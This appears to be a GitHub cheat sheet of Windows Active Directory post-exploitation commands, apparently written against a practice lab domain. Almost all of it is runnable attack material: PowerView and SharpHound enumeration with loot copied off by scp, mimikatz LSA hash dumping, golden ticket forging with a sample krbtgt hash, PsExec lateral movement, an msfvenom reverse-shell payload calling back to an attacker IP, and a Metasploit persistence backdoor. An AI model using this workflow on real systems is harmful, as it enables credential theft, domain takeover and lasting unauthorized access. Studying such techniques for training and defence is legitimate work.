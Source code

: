 # Post exploitation
Following examples have been tested on Windows targets with a SSH connections

Any question ? **Here is the answer :** https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference/

## Enumeration w/ PowerView
***CheatSheet*** : 
https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993

Starts powershell (-ep bypasses the execution policy of powershell allowing you to easily run scripts)
```cmd
powershell -ep bypass
```
We can now start PowerView (not any output is intended)
```ps
.\Downloads\PowerView.ps1
```
- Enumerate domain users `Get-NetUser | select cn`
- Enumerate domain groups `Get-NetGroup`
- Enumerate selected domain groups `Get-NetGroup -GroupName *admin*`
- Enumerate shares `Invoke-ShareFinder`
- Gather system informations `Get-NetComputer -fulldata`

## Enumeration w/ BloodHound

Bloodhound is a graphical interface that allows you to visually map out the network. This tool along with SharpHound which similar to PowerView takes the user, groups, trusts etc. of the network and collects them into .json files to be used inside of Bloodhound.

### 1. Getting loot w/ SharpHound -
```cmd
powershell -ep bypass
```
Launch BloodHound (SharpHound is the Windows version)  
Not any output is intended
```powershell
. .\Downloads\SharpHound.ps1 
```
Let's gather infos !
```powershell  
Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip
```
Let's download loot.zip to our machine  
Multiples ways are availables  
Example w/ ssh (scp) :
```bash
scp Administrator@CONTROLLER:C:/Users/Administrator/20230424130956_loot.zip .
```
### 2. Mapping the network w/ BloodHound
launch neo4j and bloodhound in our machine
```bash
sudo neo4j console &
bloodhound
```
This will require you to change your bloodhound password  
Default - neo4j:neo4j

```
Drag and drop loot.zip inside bloodhound
```

```
Click on the top left three lines button 
Click on analisys and look at how strong bloodhound is
```
(When I upload my zip file, I have an incompatibility error)

## Dumping hashes w/ mimikatz
Start mimikatz and verify that you have admin perms (OK 20)
```cmd
.\mimikatz.exe
privilege::debug
```
Dump those hashes!
```mimikatz
lsadump::lsa /patch 
```
Time to crack !  

## Golden Ticket w/ mimikatz
### Create the golden ticket
Start mimikatz and verify that you have admin perms (OK 20)
```cmd
.\mimikatz.exe
privilege::debug
```
This dumps the hash and security identifier of the Kerberos Ticket Granting Ticket account allowing you to create a golden ticket
```mimikatz
lsadump::lsa /inject /name:USERNAME
exit
```
```cmd
dir
```
Basically, some new files are here, they are SID's
Adapt the following command to create the golden ticket and suit your conditions
```mimikatz
kerberos::golden /user:USERNAME /domain:EXAMPLE.local /sid:ONE_OF_THOSE_NEW_FILE_THAT_BELONGS_TO_THE_RIGHT_USER /krbtgt:PRIMARY_NTLM_HASH /id:500
```
Example :
```mimikatz
Kerberos::golden /user:Administrator /domain:CONTROLLER.local /sid:S-1-5-21-432953485-3795405108-1502158860 /krbtgt:72cd714611b64cd4d5550cd2759db3f6 /id:500
```
### Use the golden ticket to access other machine
```mimikatz
misc::cmd
exit
```
List it
```cmd
dir \\Desktop-1\c$
```
Access it
```cmd
PsExec.exe \\Desktop-1 cmd.exe
```
## Enumeration w/ Server Manager
(This requires a RDP connection)
```
Start Windows Server Manager
```
```
Navigate to the tools tab and select the tool you want 
```
## Maintaining access w/ Metasploit
### Upgrade to meterpreter
1. We want to upgrade our shell to a meterpreter. to do so, we need to use msfvenom to generate a payload
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=LOCALIPADDR LPORT=4444 -f exe -o shell.exe
```
Example :
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.8.14.34 LPORT=4444 -f exe -o shell.exe
```
2. Transfer the payload to the target
```bash
scp shell.exe Administrator@CONTROLLER:shell.exe
```
3. Start and set up a multi/handler listener (ips, ports and payload need to match with the msfvenom payload)
```bash
msfconsole
use multi/handler
set LHOST 10.8.14.34
set LPORT 4444
set payload windows/meterpreter/reverse_tcp
run
```
4. Execute the payload on the target machine
5. Verify that you received a meterpreter shell

## Run persitence module
Now, we can background the session to run the persitence module
```msfconsole
CTRL+Z
use exploit/windows/local/persistence
sessions
set session RIGHT_SESSION_NUMBER
run
```
If the system is shut down or reset for whatever reason you will lose your meterpreter session however by using the persistence module you create a backdoor into the system which you can access at any time using the metasploit multi handler and setting the payload to windows/meterpreter/reverse_tcp allowing you to send another meterpreter payload to the machine and open up a new meterpreter session.